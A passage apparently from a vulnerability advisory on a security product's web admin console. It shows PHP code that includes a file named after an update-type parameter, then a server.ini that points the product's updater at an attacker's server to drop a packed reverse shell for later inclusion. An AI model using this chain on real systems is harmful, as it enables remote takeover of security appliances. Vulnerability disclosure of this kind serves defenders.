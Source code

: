 
File /var/www/AdminUI/widget/inc/class/widgetPool/WidgetPoolFactory.abstract.php:



```
public function getWidgetPoolManager($strUpdateType = 'widget'){
    if(! isset(self::$instance[__FUNCTION__][$strUpdateType])){
        $strFileName = $this->objFramework->getTypeFactory()->getString()->getUpperCamelCase($strUpdateType);
        require_once (self::getDirnameFile() . '/widget/'.$strFileName.'PoolManager.php');
        $strClassName = 'WF'.$strFileName.'PoolManager';
        self::$instance[__FUNCTION__][$strUpdateType] = new $strClassName($this->objFramework);
    }
    return self::$instance[__FUNCTION__][$strUpdateType];
}
```

One way for an attacker to place an arbitrary file on the system is to abuse the update process that can be managed from the same product console.

Files downloaded from alternate update sources are stored in the /var/tmcss/activeupdate directory. An attacker can setup a fake update server and trigger an update from it to download the malicious archive.

As an example, we have packed a reverse shell named rshellPoolManager.php into the bf1747402402.zip archive. The following server.ini would instruct the application to download the archive and uncompress it inside /var/tmcss/activeupdate:



```
; =======================================
; ActiveUpdate 1.2 US
;
; Filename: Server.ini
;
; New Format AU 1.8
;
; Last modified by AUJP1 10/14/2015
; =======================================

[Common]
Version=1.2
CertExpireDate=Jul 28 08:52:40 2019 GMT

[Server]
AvailableServer=1
Server.1=http://<serverIP>:1080/
AltServer=http://<serverIP>:1080/
Https=http://<serverIP>:1080/

[PATTERN]
P.48040039=pattern/bf1747402402.zip,1747402402,257
```


